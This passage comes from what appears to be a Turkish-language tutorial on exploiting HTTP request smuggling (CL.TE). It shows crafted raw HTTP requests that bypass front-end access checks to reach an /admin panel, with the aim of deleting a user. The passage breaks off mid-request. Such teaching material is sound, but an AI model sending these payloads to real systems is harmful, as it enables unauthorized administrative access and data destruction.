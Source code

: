Şimdi bu yazının en eğlenceli kısma geçiyoruz.

## HTTP Request Smuggling Açığını Sömürme

Bu bölümde, amaca ve uygulamanın diğer davranışlarına bağlı olarak HTTP Request Smuggling güvenlik açıklarından yararlanılabilecek çeşitli yollar açıklayacağım. Aksi belirtilmediği sürece bütün sistemler CL.TE olarak kullanıldığı varsayılmıştır.

### Front-end Güvenlik Kontrollerini Atlatmak İçin HTTP Request Smuggling Kullanımı

Bazı sistemler front-end'de güvenlik kontrolleri yapar. Yalnızca bu kontrollerden geçen istekler back-end'e iletilir.

Örneğin, bir sistemde belirli URL'lere sadece kullanıcının yetkisi varsa ulaşılabilir olsun. Front-end isteği kontrol ediyor ve kontrolden geçenleri back-end'e iletiyor. Back-end ise, kendisine ulaşan istekleri güvenilir kabul ederek direkt işliyor. Bu durumda HTTP Request Smuggling kullanılarak front-end güvenlik kontrolleri atlatılabilir.

Bir kullanıcının sistemde /home'a erişiminin olduğunu ancak /admin'e olmadığını varsayalım. Bu kısıtlama aşağıdaki gibi bir istek ile atlatılabilir:

          POST /home HTTP/1.1
          Host: vulnerable-website.com        
          Content-Type: application/x-www-form-urlencoded
          Content-Length: 60
          Transfer-Encoding: chunked

          0

          GET /admin HTTP/1.1
          Host: vulnerable-website.com

Yukarıdaki gibi bir durumda olduğumuzu düşünelim. Admin paneline "erişim sağlayabiliyoruz". Hadi oradan "fatih" kullanıcı adına sahip kullanıcıyı silmeye çalışalım.

          POST / HTTP/1.1
          Host: vulnerable-website.com
          Content-Type: application/x-www-form-urlencoded
          Content-Length: 37
          Transfer-Encoding: chunked

          0

          GET /admin HTTP/1.1
          X-Ignore: X

İsteğini gönderdiğimizde gelen yanıtta 403 Forbidden hatasını görürüz. Bunun sebebi ikinci isteğimizde localhost'u belirtmemiş olmamızdı. Hadi localhost'u belirtelim.

          POST / HTTP/1.1
          Host: vulnerable-website.com
          Content-Type: application/x-www-form-urlencoded
          Content-Length: 54
          Transfer-Encoding: chunked
